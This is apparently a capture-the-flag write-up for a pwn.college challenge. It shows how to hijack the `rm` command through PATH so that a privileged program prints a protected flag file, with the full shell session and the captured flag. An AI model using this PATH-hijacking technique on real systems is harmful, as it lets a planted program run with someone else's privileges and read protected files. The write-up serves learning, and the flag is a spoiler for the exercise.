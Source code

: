 # Hijacking Commands
In this challenge we are supposed to change the `rm` command in such a way that when we call `/challenge/run` it calls `rm` which should print flag than removing it.

## My solve
**Flag:** `pwn.college{gZ8zNxV-HAqz1-s3_guxUJLfEJy.QX3cjM1wCO1kjNzEzW}`

- I thought since `/challenge/run` is going to run `rm` anyways lets alter it by removing `rm` from `PATH` and putting a `rm` of our own in it.
- This `rm` contained the command to read the flag file.
- I had tried to use `rm` without changing any permissions but it didnt work so then I had to retry the challenge and give th permissions before executing.
- Then when we changed teh contents of `PATH` to the dir. of our `rm` and ran `/challenge/run`, it read and displayed the flag.

```bash
  GNU nano 8.4                                                            rm                                                                      
/run/dojo/bin/cat /flag
```
```bash
hacker@path~hijacking-commands:~$ which cat
/run/dojo/bin/cat
hacker@path~hijacking-commands:~$ touch rm
hacker@path~hijacking-commands:~$ nano rm
hacker@path~hijacking-commands:~$ chmod u+x rm
hacker@path~hijacking-commands:~$ PATH=/home/hacker
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
pwn.college{gZ8zNxV-HAqz1-s3_guxUJLfEJy.QX3cjM1wCO1kjNzEzW}
```

